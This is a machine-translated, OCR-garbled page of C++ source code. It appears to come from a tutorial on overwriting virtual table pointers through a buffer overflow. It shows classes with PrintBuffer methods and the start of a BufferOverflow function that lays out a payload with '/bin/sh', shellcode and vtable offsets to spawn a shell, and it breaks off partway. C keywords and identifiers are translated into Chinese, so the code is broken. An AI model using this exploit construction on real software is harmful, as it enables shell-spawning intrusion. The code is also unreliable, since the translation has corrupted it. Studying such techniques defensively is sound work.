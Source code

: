 PrintBuffer() { printf(\"%s\\n\",Buffer); } };

类 MyClass1:public BaseClass { public: void

PrintBuffer() { printf(\"MyClass1: \");

BaseClass::PrintBuffer(); }};

类 MyClass2:public BaseClass { public: void

PrintBuffer() { printf(\"MyClass2: \");

BaseClass::PrintBuffer(); }};

char \*BufferOverflow(unsigned long BufferAddress,int IAddress,int VPTROffset,

unsigned short AddThis,unsigned long VTABLEAddress,char \*NewBuffer,char LastByte) {

字符 \*CBuf;无符号

长 \*LBuf;无符号短 \*SBuf; char

BinShSize,ShellCodeSize,StackCodeSize,NewBufferSize;无符号长我，

MethodAddressOffset,BinShAddressOffset,NullOffset,BinShOffset,BinSh00Offset,

ShellCodeOffset,StackCodeOffset,

NewBufferOffset,NewBuffer00Offset,

最后字节偏移； char \*

BinSh = \"/bin/sh\";

CBuf=(char\*)malloc(VPTROffset+4+1);

LBuf=(无符号长\*)CBuf;

BinShSize = (char) strlen (BinSh);

ShellCodeSize=0x62;

堆栈码大小=0x91+2‑0x62；

22/26

Machine Translated by Google

NewBufferSize=(char)strlen(NewBuffer);

MethodAddressOffset=IAddress\*4；

BinShAddressOffset = MethodAddressOffset + 4;

NullOffset=方法地址偏移+8；

BinShOffset=方法地址偏移+12；

BinSh00Offset=BinShOffset+(无符号长)BinShSize;

ShellCodeOffset=BinSh00Offset+1;

StackCodeOffset=ShellCodeOffset+(unsigned long)ShellCodeSize;

NewBufferOffset=StackCodeOffset+(unsigned long)StackCodeSize;
